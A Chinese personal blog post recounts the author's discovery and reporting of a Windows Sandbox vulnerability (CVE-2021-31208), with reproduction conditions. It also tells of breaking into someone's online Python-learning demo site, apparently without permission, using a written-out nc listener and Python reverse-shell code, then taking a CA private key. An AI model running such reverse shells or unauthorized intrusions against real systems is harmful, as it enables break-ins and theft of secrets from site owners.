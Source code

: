 ```yaml
---
layout: post
title: 论如何发现一个计算机漏洞
tags: [安全, 漏洞, 网络]
---
```


  网络安全？可不只是专业人员的事情。<!--more-->    
  
# 起因
  一个月前我发现了Windows沙箱有个很严重的漏洞，害得我都不敢相信微软产品的安全性了……不过Windows沙箱还是挺好用的，我不希望因为这种安全问题就放弃它，所以我就向微软反馈了这个漏洞。   
  于是昨两天，微软给我发邮箱说这个漏洞已经修好了，顺便感谢了一下我对微软产品安全性的贡献。虽然吧这个感谢也没给钱啥的，但是这个[漏洞的描述页面](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31208)能把我的名字写上去这个我还是挺高兴的。   
  在我收到这个消息当天，我就兴奋的顺手又黑掉了一个网站😂，难不成我的天赋在信息安全上？   
  
# Windows沙箱的漏洞发现过程与复现方法
  在几个月前，我的电脑莫名其妙的被安装上了Microsoft Edge Beta版，我明明从来没有安装过，但是它就是莫名其妙的出现了。这么一安装，我的电脑就有了两个Edge浏览器。像我对电脑上面的东西还是有一点点的洁癖的，我不希望电脑上出现多余的东西，像这种出现两个Edge的问题我肯定是无法忍受。所以呢我就开始想方设法的卸载掉它。   
  一般来说Edge Beta都是手动安装的，所以这种情况在“卸载或更改程序”里应该是可以发现的，但是这个是莫名其妙被安装上的，自然也就不会出现在那个列表之中。接下来我开始搜如何强行卸载掉Edge，网上搜到的答案一般就是在浏览器内核文件夹下找到`Installer`文件夹，然后在这个文件夹下执行命令`.\setup.exe --uninstall --system-level --verbose-logging --force-uninstall`就OK了。结果我明明是去的Beta版下的那个文件夹执行的这条命令，然后它把我正式版的Edge卸掉了……卸掉之后不仅留下了一个删不掉的图标，而且Beta版里也没有我的Cookie和插件……   
  过了两天Windows更新了，更新之后正式版的又给我安装回来了……这真的是不知道怎么说……后来我下了一个Geek Uninstaller总算是把那个困扰我很长时间的Edge Beta卸载掉了。   
  就以上这件事情搞的我很烦躁，烦躁之后就想发泄，发泄又不能对着我的电脑发泄，于是我就打开了Windows沙箱，把Windows沙箱里的Edge给卸载掉了。结果怎么着？我物理机上的Edge也不见了！这说明了啥问题？我在沙箱里做的操作竟然影响到了物理机？后来我经过测试发现，微软似乎把物理机里的`C:\Program Files (x86)\Microsoft\Edge\Application`文件夹映射到了沙箱里，而且没有做任何的限制。这可真是太可怕了，要知道沙箱相当于一个被信任执行危险东西的一个地方，那么使用它的人都是不会考虑里面运行的东西是不是安全的，看来阿三写的代码不行啊。假如我写一个程序，它把`msedge.exe`文件感染了，比如说加个壳啥的，物理机上用Edge的人应该也不少吧，至少市场占有率都已经超过Firefox了，那么在沙箱里Edge被感染的人在物理机上一旦运行，那么物理机将陷入危险的境地。   
  最开始我发现了这个漏洞之后我是在反馈中心里提交的，不过那个看起来貌似一点点用都没有，微软是没有人会去看那个东西的，而且就算看到了也只会静悄悄的修复掉，你的反馈就和垃圾没什么区别。   
  后来我在百度上搜怎么向微软提交漏洞，百度简直就是个垃圾，没有搜到一点点有用的信息，之后看了半天我看到有一个文章说可以给 <secure@microsoft.com> 发邮件来反馈BUG，于是我就用英文写了篇文章来报告这个BUG。
  不过我的方法并不正确，因为微软有专门反馈BUG的网站，也就是[Microsoft Security Response Center](https://www.microsoft.com/zh-cn/msrc/)。你如果直接用邮箱报告他们当然也会回复，但是大概率得不到奖金，因为人家的报告一般都有格式，自己写邮件肯定是不知道要按什么格式写。所以垃圾百度搜给微软报告漏洞根本找不到这个网站，还是我发了邮件之后才知道原来可以在这里报告，所以如果大家以后找到微软的漏洞想报告，千万不要用那个垃圾“反馈中心”，也不要发邮件，最好直接在[这里](https://msrc.microsoft.com/create-report)报告漏洞。   
  另外还有个问题就是如果真的得到了奖金，拿到它也有点麻烦，因为微软不能说是让你发个支付宝收款码之类的，得先注册一个HackerOne或者Bugcrowd的账户，而且从国外提款很麻烦，所以如果不是那种经常能发现漏洞的，或者是在安全公司里的人，基本上这钱就还是别提了。   
## 复现的环境要求
  这个漏洞的大致使用方法读完上面的部分大家应该也都明白了吧，PoC？那种东西我怎么可能会写？，傻子都知道怎么测试了吧？所以如果大家想复现这个漏洞首先需要运行在Windows 10的电脑上安装Windows沙箱，最早的有效版本我不太清楚，因为这个漏洞是微软把旧版的Edge完全从电脑上删除开始的，另外目前的话如果想要复现这个漏洞不能安装[KB5003173](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB5003173)补丁，如果安装了貌似也可以卸载掉。所以以当前发布这篇文章的时间来看，只要在最新的Windows 10上卸载KB5003173补丁，然后安装Windows沙箱，就可以复现这个漏洞。
## 人生中第一个自己贡献了的CVE
  看来[CVE-2021-31208](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31208)就是我贡献的了，以后只要在微软的[鸣谢列表](https://msrc.microsoft.com/update-guide/acknowledgement)里搜索Mayx就可以搜到我找到的漏洞了，虽然这个漏洞很简单，但是自己的名字能写到那个列表里也挺令人高兴的啊。   
  
# 那天我黑掉的网站
  5月12日那天，有一名叫做[Kingfish404](https://github.com/Kingfish404)的人Fork了我的博客，结果第一眼看到了那个爬猎聘网的脚本，吓得我还以为这位是我的老师，因为最近我参与的一个项目就是去爬各种招聘网站。总之就是这些原因我对这个人产生了一点点兴趣，就看了看Ta的仓库。看着看着看到了一个可以[在线学习Python的网站源代码](https://github.com/Kingfish404/LearnPython)，我很久以前就很想做一个开源的这种在线运行Python代码然后可以自动批阅的网站，就像Python123那样，就是因为他们那个服务要收费所以就想写个开源的，不过因为如果直接用Python在服务器上运行的话实在是太危险了，所以我想的是写一个使用Docker来运行Python并且评分的平台（也许可以用k8s？），可惜我水平有限，不怎么会用Docker所以就没再管了。但是今天既然看到了那不得拜读一下？结果发现这个人写的就是我说的那种危险方法运行Python脚本的，看了一下代码还用了一个漏洞百出的安全检查函数来防止攻击……总之既然有示例站我们就来搞搞试试看嘛。一般来说这种反弹shell绝对是简单的不得了，不过我也只是知道这个概念，怎么用我还是不太清楚。然后就搜了一下，看到了[这篇文章](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)。嗯……现实中攻击还是要比CTF中攻击有意思，然后我就在我的服务器上执行了一下`nc -lvvp 1234`，在它的代码执行框里执行：
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("remote-ip",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
  就这样我就成功的反弹了一个Shell，虽然吧Ta给的权限不高，但是下个CA证书的私钥还是轻轻松松的。后来我给这个人反馈了一下他就把网站关掉了。   
  所以如果谁有兴趣想亲手试试看怎么反弹Shell也可以下载Ta的代码试一试。   

# 总结
  从以上来看，想找漏洞绝不是一定要学过网络/信息安全的人才能干的事情，至少我不是信息安全专业的，所以只要有能注意到问题的思考方法，要正面面对问题，要刻意触发问题，知道问题出现在哪里，猜测问题可以做什么，那么谁都可以发现漏洞，虽然发现了也不能说是大神吧……但是你看看这把我的名字写到鸣谢里不挺让人开心的吗？

